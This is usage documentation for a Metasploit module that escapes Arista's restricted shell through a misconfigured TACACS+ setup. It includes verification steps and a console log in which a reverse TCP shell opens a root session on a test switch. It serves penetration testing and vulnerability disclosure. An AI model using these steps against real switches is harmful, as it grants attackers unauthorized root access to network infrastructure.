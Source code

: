## Description

  Implementing TACACS+ with Arista switch versions equal to or before 4.23.1F
  for "Read-Only" users can circumvent using the built-in roles supplied to
  restrict any bash  commands, leading to privilege escalation. This exploit
  is a combination of a poorly configured TACACS+ (tac_plus) AAA server and
  Arista’s alternative CLI shells.

## Vulnerable Application

  This module has been tested successfully on:

  * tac_plus Version: 202001211926/PCRE/DES

  Additional Vulnerable Tested Hardware/Software Combinations:

  * DCS-7280SRAM-48C6-R   – 4.22.0.1F
  * DCS-7050CX3-32S-R     – 4.20.11M
  * DCS-7050QX-32S-R      – 4.20.9M


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/arista_tacplus_shell`
  3. `set PASSWORD <password>`
  4. `set USERNAME <username>`
  5. `set LHOST <lhost>`
  6. `set RHOST <rhost>`
  7. `check`
  8. `run`
  9. You should get a *root* session


## Scenario
```
root@kali:~/git/metasploit-framework# ./msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.92-dev-5ef76ff232               ]
+ -- --=[ 2025 exploits - 1101 auxiliary - 343 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Display the Framework log using the log command, learn more with help log

msf5 > search arista

Matching Modulesf
================

   #  Name                                   Disclosure Date  Rank   Check  Description
   -  ----                                   ---------------  ----   -----  -----------
   0  exploit/unix/ssh/arista_tacplus_shell  2020-02-02       great  Yes    Arista restricted shell escape (with privesc)


msf5 > use 0
msf5 exploit(unix/ssh/arista_tacplus_shell) > show options

Module options (exploit/unix/ssh/arista_tacplus_shell):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     22               yes       The target port
   USERNAME                   yes       Username to login with


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(unix/ssh/arista_tacplus_shell) > set LHOST eth0
LHOST => 10.10.10.20
msf5 exploit(unix/ssh/arista_tacplus_shell) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf5 exploit(unix/ssh/arista_tacplus_shell) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/ssh/arista_tacplus_shell) > set PASSWORD admin
PASSWORD => admin
msf5 exploit(unix/ssh/arista_tacplus_shell) > check
[+] 10.10.10.10:22 - The target is vulnerable.
msf5 exploit(unix/ssh/arista_tacplus_shell) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.10.20:4444
[*] 10.10.10.10:22 - Attempt to login to the Arista's restricted shell...
msf5 exploit(unix/ssh/arista_tacplus_shell) > [+] SSH connection established.
[*] Requesting pty rbash
[+] Pty successfully obtained.
[*] Requesting a shell.
[+] Spawned into arista rbash shell.
[*] Attempting to break out of Arista rbash...
[+] Escaped from rbash!
[*] Command shell session 1 opened (10.01.10.20:4444 -> 10.10.10.10:51153) at 2020-06-09 15:39:53 -0700
msf5 exploit(unix/ssh/arista_tacplus_shell) > sessions -i 1
[*] Starting interaction with 1...
bash-4.3# whoami
whoami
root
bash-4.3# exit
exit
exit
[*] 10.10.10.10 - Command shell session 1 closed.
msf5 exploit(unix/ssh/arista_tacplus_shell) >
```
